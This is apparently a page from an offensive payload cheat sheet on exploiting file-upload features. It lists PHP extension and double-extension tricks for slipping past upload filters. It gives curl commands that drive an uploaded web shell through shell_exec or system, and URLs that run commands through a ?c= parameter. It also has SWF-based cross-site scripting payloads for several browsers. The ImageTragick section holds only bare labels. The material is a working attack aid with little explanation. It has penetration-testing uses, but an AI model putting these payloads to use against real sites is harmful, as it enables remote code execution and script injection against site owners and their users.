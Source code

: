 # Upload

Uploaded files may pose a significant risk if not handled correctly. A remote attacker could send a multipart/form-data POST request with a specially-crafted filename or mime type and execute arbitrary code.

## Exploits

### Image Tragik

```powershell
HTTP Request
Reverse Shell
Touch command
```

### PHP Extension

```powershell
.php

Less known extension
.pht
.pgif
.phtml
.shtml

Double extension
.jpeg.php
.png.php
```

### PNG Bypass a resize

Upload the picture and use a local file inclusion

```powershell
You can use it by specifying $_GET[0] as shell_exec and passing a $_POST[1] parameter with the shell command to execute.
curl 'http://localhost/b.php?0=shell_exec' --data "1='ls'"
curl 'http://localhost/test.php?0=system' --data "1='ls'"
```

### JPG Bypass a resize

Upload the picture and use a local file inclusion

```powershell
http://localhost/test.php?c=ls
```

### XSS via SWF

As you may already know, it is possible to make a website vulnerable to XSS if you can upload/include a SWF file into that website. I am going to represent this SWF file that you can use in your PoCs.
This method is based on [1] and [2], and it has been tested in Google Chrome, Mozilla Firefox, IE9/8; there should not be any problem with other browsers either.

```powershell
Browsers other than IE: http://0me.me/demo/xss/xssproject.swf?js=alert(document.domain);

IE8: http://0me.me/demo/xss/xssproject.swf?js=try{alert(document.domain)}catch(e){ window.open(‘?js=history.go(-1)’,’_self’);}

IE9: http://0me.me/demo/xss/xssproject.swf?js=w=window.open(‘invalidfileinvalidfileinvalidfile’,’target’);setTimeout(‘alert(w.document.location);w.close();’,1);
```

## References

* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil
